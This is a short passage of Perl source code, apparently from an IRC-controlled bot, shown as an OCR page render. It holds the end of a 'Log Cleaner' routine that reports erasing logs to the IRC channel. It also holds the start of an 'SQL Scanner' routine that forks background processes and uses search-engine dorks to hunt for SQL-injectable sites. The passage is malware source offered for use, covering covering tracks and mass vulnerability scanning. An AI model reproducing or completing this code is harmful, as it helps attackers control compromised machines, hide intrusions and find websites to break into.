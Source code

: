       sleep 1; 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Log-Cleaner12]  LogCleaner :. |  Done! All logs erased"); 

      } 

###################### 

# End of Log Cleaner #  

###################### 

###################### 

#              SQL SCANNER              # 

###################### 

  

if ($funcarg =~ /^sql2\s+(.*?)\s+(.*)\s+(\d+)/){ 

   if (my $pid = fork) { 

      waitpid($pid, 0); 

   } else { 

      if (my $d=fork()) { 

         addproc($d,"[SQL2] $2"); 

         exit; 

      } else { 

           

         my $bug=$1; 

         my $dork=$2; 

         my $contatore=0; 

         my ($type,$space); 

         my %hosts; 

         my $columns=$3; 

           

                        ### Start Message 

                        sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SQL-Scanner12] Starting Scan for 4$bug $dork"); 

                        sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SQL-Scanner12] Initializing on 45 12Search Engines "); 

                        ### End of Start Message 

